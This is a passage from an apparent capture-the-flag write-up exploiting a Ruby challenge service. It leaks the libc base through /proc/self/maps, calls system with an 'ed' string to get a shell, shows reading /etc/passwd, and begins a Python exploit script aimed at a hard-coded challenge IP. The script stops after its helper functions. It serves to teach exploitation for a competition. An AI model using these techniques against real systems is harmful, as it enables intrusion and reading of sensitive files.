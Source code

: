 Easy peasy, we just need to jump to `system` in libc now. For this we have to leak the libc base address. No problem, we have the file read primitive from the beginning and can just read `/proc/self/maps` which will give us the mapped memory for the current process:

{% highlight php %}
00400000-00401000 r-xp 00000000 ca:01 273936              /home/ctf/.rvm/rubies/ruby-2.2.1/bin/ruby
00600000-00601000 r--p 00000000 ca:01 273936              /home/ctf/.rvm/rubies/ruby-2.2.1/bin/ruby
00601000-00602000 rw-p 00001000 ca:01 273936              /home/ctf/.rvm/rubies/ruby-2.2.1/bin/ruby
00b4e000-011fa000 rw-p 00000000 00:00 0                   [heap]
[...]
7f361e2c7000-7f361e482000 r-xp 00000000 ca:01 396040      /lib/x86_64-linux-gnu/libc-2.19.so
7f361e482000-7f361e681000 ---p 001bb000 ca:01 396040      /lib/x86_64-linux-gnu/libc-2.19.so
7f361e681000-7f361e685000 r--p 001ba000 ca:01 396040      /lib/x86_64-linux-gnu/libc-2.19.so
7f361e685000-7f361e687000 rw-p 001be000 ca:01 396040      /lib/x86_64-linux-gnu/libc-2.19.so

{% endhighlight %}
                            
Extract the base address, add the system offset (if we don't know which libc is used, we can also just dump the libc using the file read primitive again) and we are good to go, right? Not quite, we still need our `/bin/sh` argument for system. Lucky enough for us, the `method_checkout` loads an argument from offset 16:


![argument](http://i.imgur.com/pWRKX08.png)

Unlucky for us though, it does not load it into `rdi` but into `edi`, meaning the high 4 bytes will be set to 0. The 4 MSB of libc addresses are not 0 though! We can not use the `/bin/sh` string from the libc. What can we do? Well we need to find a `/bin/sh` string in memory that has 0's on the 4 MSB. Candidates are only the ruby binary and the heap as you can see above. We do control strings on the heap, so we can just spray the heap and hope to guess the correct offsets. But there is a more elegant solution. We don't actually need a `/bin/sh` string. We can spawn a shell with simply a `'ed\0'` or `'ed '` string. This opens a vim-like text editor and you can then execute commands via `!cat /etc/passwd`. And it is really *easy* to find an `ed` string in any binary. You can take any that you like from the ruby binary :)

The final exploit:

{% highlight python %}
#!/usr/bin/env python

import sys
import socket
import struct
import telnetlib
import time
import re
import string
import base64
import random


#s = socket.create_connection(("127.0.0.1", 13337))
s = socket.create_connection(("54.164.173.236", 1337))


def interact():
    t = telnetlib.Telnet()
    t.sock = s
    t.interact()

def ra(to=.5):
    buf = ""
    s.setblocking(0)
    begin = time.time()
    while 1:
        if buf is not "" and time.time() - begin > to:
            break
        elif time.time() - begin > to*2:
            break